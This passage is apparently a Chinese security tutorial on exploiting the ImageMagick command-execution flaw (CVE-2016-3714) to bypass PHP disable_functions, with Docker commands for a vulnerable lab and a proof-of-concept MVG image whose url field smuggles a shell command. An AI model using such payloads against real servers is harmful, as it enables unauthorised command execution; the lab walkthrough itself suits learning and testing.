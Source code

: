 
### 利用 ImageMagick 命令执行漏洞 bypass disable_functions

利用 [ImageMagick 命令执行漏洞（CVE-2016–3714）](https://github.com/Medicean/VulApps/tree/master/i/imagemagick/1)

> ImageMagick是一款开源图片处理库，支持 PHP、Ruby、NodeJS 和 Python 等多种语言，使用非常广泛。包括 PHP imagick、Ruby rmagick 和 paperclip 以及 NodeJS imagemagick 等多个图片处理插件都依赖它运行。

**获取环境**

拉取镜像到本地

`$ docker pull medicean/vulapps:i_imagemagick_1`

启动环境

`$ docker run -d -p 8000:80 --name=i_imagemagick_1 medicean/vulapps:i_imagemagick_1`

 > -p 8000:80 前面的 8000 代表物理机的端口，可随意指定。

- 使用与利用
- 本地测试

在容器中 `/poc.png` 文件内容如下：
```
push graphic-context
viewbox 0 0 640 480
fill 'url(https://evalbug.com/"|ls -la")'
pop graphic-context
```

在物理机上直接执行下面命令验证漏洞：

`$ docker exec i_imagemagick_1 convert /poc.png 1.png`

或进入 docker容器 shell 中执行：

`$ convert /poc.png 1.png`

如果看到 `ls -al 命令成功执行`，则存在漏洞。

![](img/5.png)
